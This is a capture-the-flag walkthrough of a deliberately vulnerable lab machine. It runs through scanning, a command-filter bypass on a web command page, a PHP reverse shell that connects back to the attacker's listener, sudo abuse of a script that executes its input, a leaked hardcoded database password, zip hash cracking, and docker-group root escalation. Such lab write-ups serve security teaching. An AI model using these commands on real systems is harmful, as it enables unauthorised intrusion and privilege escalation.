


## Nmap: 
---
```bash
nmap -T4 -A -p - 10.113.139.4 -v -oN nmap
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.132.187
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 9d:a1:d3:16:5a:4a:44:fd:d9:cf:e4:90:7a:b3:fa:78 (RSA)
|   256 bb:e0:58:3a:db:3c:82:3a:31:58:2b:63:24:92:3f:02 (ECDSA)
|_  256 01:a3:78:71:58:bf:09:4e:09:d0:96:69:09:8c:c7:cb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 7EEEA719D1DF55D478C68D9886707F17
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Game Info
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- lets check out `FTP` because `anonymous` login is allowed

## FTP: 
---
```
ftp 10.113.139.4
```

- we enter `anonynmous` as username and press enter when asked for a password 
- we can find a file called `note.txt`: 
```bash
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

- this looks like a hint we cant really use yet, because we don't have enough information about the web-server 
- lets open up the site and see what we can find

## Webserver: 
---


- there was nothing interesting in the source code, so lets use `gobuster` to find more folder and files on the server 

## Gobuster: 
---
```bash
gobuster dir -w /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.113.139.4/ -o gobuster/first_enum
```

```bash 
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.113.139.4/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://10.113.139.4/images/]
/js                   (Status: 301) [Size: 309] [--> http://10.113.139.4/js/]
/css                  (Status: 301) [Size: 310] [--> http://10.113.139.4/css/]
/.htm                 (Status: 403) [Size: 277]
/.                    (Status: 200) [Size: 35184]
/fonts                (Status: 301) [Size: 312] [--> http://10.113.139.4/fonts/]
/.htaccess            (Status: 403) [Size: 277]
/.phtml               (Status: 403) [Size: 277]
/secret               (Status: 301) [Size: 313] [--> http://10.113.139.4/secret/]
/.htc                 (Status: 403) [Size: 277]
/.html_var_DE         (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.html.               (Status: 403) [Size: 277]
/.html.html           (Status: 403) [Size: 277]
/.htpasswds           (Status: 403) [Size: 277]
/.htm.                (Status: 403) [Size: 277]
/.htmll               (Status: 403) [Size: 277]
/.phps                (Status: 403) [Size: 277]
/.html.old            (Status: 403) [Size: 277]
/.ht                  (Status: 403) [Size: 277]
/.html.bak            (Status: 403) [Size: 277]
/.htm.htm             (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.htgroup             (Status: 403) [Size: 277]
/.html1               (Status: 403) [Size: 277]
/.html.LCK            (Status: 403) [Size: 277]
/.html.printable      (Status: 403) [Size: 277]
/.htm.LCK             (Status: 403) [Size: 277]
/.htaccess.bak        (Status: 403) [Size: 277]
/.htmls               (Status: 403) [Size: 277]
/.htx                 (Status: 403) [Size: 277]
/.html.php            (Status: 403) [Size: 277]
/.htlm                (Status: 403) [Size: 277]
/.htm2                (Status: 403) [Size: 277]
/.html-               (Status: 403) [Size: 277]
/.htuser              (Status: 403) [Size: 277]
```

- the only interesting find is `/secret`, lets go to that page: 


- so we can enter linux commands and the output gets displayed on the page 
- I tried basic commands like `ls` and got this back 


- so there is some filter in place
- here we message we found on the ftp-server could help us: 
```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

- so I tried to put `"` on the start and the end of command like this: `"ls" "-la"` 


- so you can see that the filter did not prevent the execution of the `ls` command, so lets try to get a `reverse shell`
- but first we setup a listener with netcat: 
```bash
nc -lnvp 1234
```

- for the `reverse shell` I used `php`:  
```bash
"php" "-r" '$sock=fsockopen("192.168.132.187",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

- after executing we can stabilize the shell a little bit with: 
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

## local.txt: 
---
- when we run `sudo -l` on `www-data` we see this output: 
```bash
Matching Defaults entries for www-data on ip-10-114-166-151:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-114-166-151:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

- so we can run `.helpline.sh` with sudo as the user `apaar` 
- lets look at the file: 
```bash
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

- so the file prompts us to enter a `name` of a person and a `message`  
- we can see that the `msg`  variable gets executed at the end of the file, so we could try to enter `/bin/bash` as a `message` 

```bash
Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: erik
Hello user! I am erik,  Please enter your message: /bin/bash
id
uid=1001(apaar) gid=1001(apaar) groups=1001(apaar)
```

- as we can see we now got a shell as `apaar` 
- now we can read the `local.txt` in apaar's home directory: 
```bash
{USER-FLAG: <Redacted>}
```

## proof.txt: 
---
 - after searching for  a little bit I found a folder named `files` in `/var/www` 
 - that indicated that their is another website on a different port  
- I looked through the source-code and found a password for `mysql`: 
```php
<?php
        if(isset($_POST['submit']))
        {
                $username = $_POST['username'];
                $password = $_POST['password'];
                ob_start();
                session_start();
                try
                {
                        $con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
                        $con->setAttribute(PDO::ATTR_ERRMODE,PDO::ERRMODE_WARNING);
                }
                catch(PDOException $e)
                {
                        exit("Connection failed ". $e->getMessage());
                }
                require_once("account.php");
                $account = new Account($con);
                $success = $account->login($username,$password);
                if($success)
                {
                        header("Location: hacker.php");
                }
        }
?>
```

- I looked through the `webportal` database and found 2 passwords for `apaar` and `anurodh`, but their were only for the website 
- then I found this in `hacker.php` in the `files` folder: 
```bash
<center>
        <br>
        <h1 style="background-color:red;">You have reached this far. </h2>
        <h1 style="background-color:black;">Look in the dark! You will find your answer</h1>
</center>
```

- I executed `python3 -m http.server` on the target machine to start a web-server so I could download `hacker-with-laptop_23-2147985341.jpg` 
- I downloaded it with `wget`: 
```bash
wget http://10.113.167.102:8000/hacker-with-laptop_23-2147985341.jpg
```

- now we can inspect the image with `steghide` to test if any extra information was stored in the image: 
```bash
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```

- when a password was prompted I simply pressed enter, to submit a empty `password`: 
```bash
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
Enter passphrase:
wrote extracted data to "backup.zip".
```

- then I tried to unzip the backup, but I had to enter a password I didn't have
- so I had to use `zip2john` to create a hash that we can crack:    
```bash
zip2john backup.zip > hash
```

```bash
john --wordlist=/usr/share/rockyou.txt hash
```

- after one second the hash got cracked:
```bash
<Redacted>        (backup.zip/source_code.php)
```

- I used the password to extract `source_code.php` and in there was the password for `anurodh` in `Base64`: 
```php
<?php
        if(isset($_POST['submit']))
        {
                $email = $_POST["email"];
                $password = $_POST["password"];
                if(base64_encode($password) == "<Redacted>")
                {
                        $random = rand(1000,9999);?><br><br><br>
                        <form method="POST">
                                Enter the OTP: <input type="number" name="otp">
                                <input type="submit" name="submitOtp" value="Submit">
                        </form>
                <?php   mail($email,"OTP for authentication",$random);
                        if(isset($_POST["submitOtp"]))
                                {
                                        $otp = $_POST["otp"];
                                        if($otp == $random)
                                        {
                                                echo "Welcome Anurodh!";
                                                header("Location: authenticated.php");
                                        }
                                        else
                                        {
                                                echo "Invalid OTP";
                                        }
                                }
                }
                else
                {
                        echo "Invalid Username or Password";
                }
        }
?>
```

- now we can change the user to `anurodh`
- the first thing I saw was this: 
```bash
anurodh@ip-10-113-167-102:/var/www/files$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

- lets run: 
```bash
docker image ls 
``` 
- to see if there are any images already installed

```bash
anurodh@ip-10-113-167-102:/var/www/files$ docker image ls
REPOSITORY    TAG       IMAGE ID       CREATED       SIZE
alpine        latest    a24bb4013296   5 years ago   5.57MB
hello-world   latest    bf756fb1ae65   6 years ago   13.3kB
```

- after a little of searching in the internet I tried to mount the `root` directory of the system to the container, so I maybe could get access to it: 
```bash
docker run -it -v /root:/host/root  alpine /bin/sh
```

- in the container I changed the directory to `host` and saw the `root` directory, so it worked and I could read the `proof.txt` 

```bash


                                        {ROOT-FLAG: <Redacted>}


Congratulations! You have successfully completed the challenge.


         ,-.-.     ,----.                                             _,.---._    .-._           ,----.
,-..-.-./  \==\ ,-.--` , \   _.-.      _.-.             _,..---._   ,-.' , -  `. /==/ \  .-._ ,-.--` , \
|, \=/\=|- |==||==|-  _.-` .-,.'|    .-,.'|           /==/,   -  \ /==/_,  ,  - \|==|, \/ /, /==|-  _.-`
|- |/ |/ , /==/|==|   `.-.|==|, |   |==|, |           |==|   _   _\==|   .=.     |==|-  \|  ||==|   `.-.
 \, ,     _|==/==/_ ,    /|==|- |   |==|- |           |==|  .=.   |==|_ : ;=:  - |==| ,  | -/==/_ ,    /
 | -  -  , |==|==|    .-' |==|, |   |==|, |           |==|,|   | -|==| , '='     |==| -   _ |==|    .-'
  \  ,  - /==/|==|_  ,`-._|==|- `-._|==|- `-._        |==|  '='   /\==\ -    ,_ /|==|  /\ , |==|_  ,`-._
  |-  /\ /==/ /==/ ,     //==/ - , ,/==/ - , ,/       |==|-,   _`/  '.='. -   .' /==/, | |- /==/ ,     /
  `--`  `--`  `--`-----`` `--`-----'`--`-----'        `-.`.____.'     `--`--''   `--`./  `--`--`-----``


--------------------------------------------Designed By -------------------------------------------------------
                                        |  Anurodh Acharya |
                                        ---------------------

                                     Let me know if you liked it.

Twitter
        - @acharya_anurodh
Linkedin
        - www.linkedin.com/in/anurodh-acharya-b1937116a
```